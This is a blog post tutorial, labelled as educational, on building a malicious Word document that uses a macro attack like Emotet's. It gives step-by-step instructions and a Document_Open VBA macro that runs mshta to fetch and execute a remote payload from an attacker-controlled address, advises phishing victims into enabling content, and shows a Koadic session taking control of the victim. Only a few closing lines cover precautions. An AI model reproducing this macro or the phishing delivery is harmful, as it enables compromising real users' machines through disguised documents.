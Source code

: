 ```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.
This blog post is tend to show how macro attack works. In real scenario, attacker may phishing user by email user with some sort of business or organization matter etc., if user download and execute those malicious file, their machine then will be compromised.

Successful rate for this macro attack being detected by AntiVirus is depend on how the obfuscation of the macro and the Antivirus(AV) signature itself. It's look like the more obfuscation made by attacker, the lower the chance of their malware being detected by AV. One of the popular malware using this type of attack is Emotet malware. They use macro attack to drop their payload, and then execute the executable at the end of the process.

Picture below from CyberReason show how of Emotet malware works.

![enter image description here](https://lh6.googleusercontent.com/2NuozHdR7FXjw0eHCtSOa0kJyTgTGbC1Q64bhXNi1gOCRW7lHJfrb8SnAXaN6wjY9BKmsd0RwekmY1y-fCk21CVv2CBmMPBMQb9iGDghRfLCZ8GfrN0DSRm6GH0D8Fc7HH2-iKpH)

We gonna create a basic malicious document attack that will execute mshta payload without any obfuscation made whenever user open our malicious document.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

Write our malicious macro code like below

```
Sub document_open()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

Take a look at below gif on how it works.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)

Koadic now has take control our target user.

# User (victim) precaution
- Verify sender address thoroughly
- Ensure Antivirus is legitimate and updated
- Take a precautionary measures like do not click "enable content" when opening `.doc` or `.docm` document format.

